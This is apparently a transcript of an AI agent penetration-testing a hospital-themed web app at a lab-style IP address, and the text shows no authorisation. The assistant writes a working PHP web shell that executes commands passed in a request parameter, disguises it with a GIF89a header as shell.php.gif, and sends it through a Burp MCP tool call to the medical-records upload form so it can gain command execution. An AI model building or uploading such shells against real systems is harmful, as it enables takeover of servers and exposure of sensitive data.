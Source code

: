 # Context Window Usage
28,377 / 200K tokens used (14%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
Now we're logged in and can see the main page of the application. It appears to be a hospital-related web application. The page has a form that allows users to upload medical records as image files. This file upload functionality could potentially be vulnerable to exploitation.

Let's examine the upload functionality more closely. The form submits to upload.php and accepts image files. This could be a potential attack vector if the file upload validation is not properly implemented. We might be able to upload a PHP web shell disguised as an image file.

Let's try to create a simple PHP web shell that looks like an image file and upload it. We'll use a PHP file with a GIF header to bypass basic file type checks.

Here's a simple PHP web shell with a GIF header:
```php
GIF89a;
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
```

Let's try to upload this file and see if we can execute commands on the server.
</thinking>

I've found that after logging in, we're presented with a hospital-related web application that allows users to upload medical records as image files. This file upload functionality could potentially be vulnerable to exploitation.

Let's try to upload a PHP web shell disguised as an image file to see if we can gain command execution on the server. I'll create a simple PHP web shell with a GIF header to bypass basic file type checks.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 328\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"shell.php.gif\"\r\nContent-Type: image/gif\r\n\r\nGIF89a;\r\n<?php\r\nif(isset($_REQUEST['cmd'])){\r\n    echo \"<pre>\";\r\n    $cmd = ($_REQUEST['cmd']);\r\n    system($cmd);\r\n    echo \"</pre>\";\r\n}\r\n?>\r\n-----------------------------12345678901234567890123456789--",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
